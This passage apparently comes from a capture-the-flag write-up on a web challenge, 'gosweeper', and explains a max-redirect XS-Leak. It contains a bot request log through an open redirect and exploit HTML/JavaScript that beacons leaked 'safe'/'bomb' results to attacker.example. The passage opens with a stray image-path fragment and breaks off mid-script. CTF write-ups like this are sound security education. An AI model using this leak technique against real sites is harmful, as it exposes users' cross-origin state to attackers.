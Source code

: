 Again, looking at the headless Chromium bots reveals that this is working as intended, with the
request to `/guess` being sent immediately after the one sent to `/board?xray=1`.

```hl_lines=10-11
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 200 https://attacker.example/persist.html
[DEBUG]   - 404 https://attacker.example/favicon.ico
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://gosweeper.example/guess
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
```

The only thing left now is to detect whether there is still an active game after making
the guess.
Since we cannot use `fetch`, given that it would not include a cookie, we have to rely
on opening a new tab once again.
Here, an interesting behaviour emerges: if we reach the maximum number of redirects,
the window's origin will be `about:blank`, which is accessible from any origin;
otherwise, the origin will be `https://gosweeper.example` and we will not be able
to access any content of the window.
Therefore, to know if a redirect is successful or not, we just have to poll
the `w.window` object and check if it becomes null; if it does, we have lost access
to the window reference, meaning the redirect was successful (and there is no bomb).

In order to achieve the 19 redirects (well, 18, since opening the new tab also counts
as a redirect, apparently) before the final destination, we can use
[XSLeaks' own demo service][max-redirect-demo], which provides us with the
`https://xsinator.com/testcases/files/maxredirect.php?n=18&url=<url>` endpoint
(I've tried creating my own with Caddy, but it ended up not being reliable in the
challenge's instance).

```html, hl_lines=14
<form id="form-guess" method="post" action="https://gosweeper.example/guess" target="_blank">
  <input type="hidden" name="guess" value="0" />
</form>

<form id="form-redirect" method="get" action="https://xsinator.com/testcases/files/maxredirect.php" target="redirect-window">
  <input type="hidden" name="n" value="18" />
  <input type="hidden" name="url" value="https://gosweeper.example/board" />
</form>

<script>
  const sleep = t => new Promise((resolve) => setTimeout(resolve, t));

  const callback = w => {
    const result = w.window == null ? 'safe' : 'bomb';
    navigator.sendBeacon(`https://attacker.example/callback/${result}`);
  }

  let w = window.open('', 'redirect-window');

  const leak = async () => {
    document.getElementById('form-redirect').submit();
    await sleep(2500);
    callback(w);
    await sleep(100);
    callback(w);
    await sleep(100);
```

[XSLeaks]: https://xsleaks.dev
[CSP header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[cors-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[cookie-lax]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#lax
[coop-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy
[corp-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy
[max-redirects]: https://xsleaks.dev/docs/attacks/navigations/#max-redirects
[unload-event]: https://developer.mozilla.org/en-US/docs/Web/API/Window/unload_event
[window-opener]: https://developer.mozilla.org/en-US/docs/Web/API/Window/opener
[max-redirect-demo]: https://xsinator.com/testing.html#Max%20Redirect%20Leak
[Express]: https://expressjs.com/
[Mustache]: https://mustache.github.io/